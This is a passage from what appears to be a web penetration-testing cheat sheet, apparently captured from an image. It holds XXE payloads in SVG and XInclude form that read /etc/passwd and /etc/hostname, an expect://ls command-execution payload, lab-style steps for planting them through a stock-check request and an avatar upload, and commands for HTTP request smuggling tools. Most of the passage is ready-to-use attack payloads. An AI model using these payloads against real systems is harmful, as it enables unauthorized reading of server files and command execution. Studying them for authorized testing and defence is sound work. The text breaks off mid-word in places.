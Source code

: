             # XXE file upload SVG
            <svg>&xxe;</svg>
            <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
                <image xlink:href="expect://ls"></image>
            </svg>
            
            <?xml version="1.0" encdoing="UTF-8" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="14" x="0" y="16">&xxe;</text></svg>  
            
            # XXE Hidden Attack
            
            - Xinclude
            
            Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
            Set the value of the productId parameter to:
            <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
            
            - File uploads:
            
            Create a local SVG image with the following content:
            <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
            Post a comment on a blog post, and upload this image as an avatar.
            When you view your comment, you should see the contents of the /etc/hostname file in your image. Then use the "Submit solution" but
            ```
            
    - [ ]  Blind XXE with out-of-band interaction
- [ ]  SSI Injection
- HTTP Request Smuggling
    - Tools
        
        ```jsx
        # https://github.com/defparam/smuggler
        python3 smuggler.py -u <URL>
        # https://github.com/defparam/tiscripts
        
        # https://github.com/anshumanpattnaik/http-request-smuggling/
        python3 smuggle.py -u <URL>
        
        # https://github.com/assetnote/h2csmuggler
        go run ./cmd/h2csmuggler check https://google.com/ http://localhost
        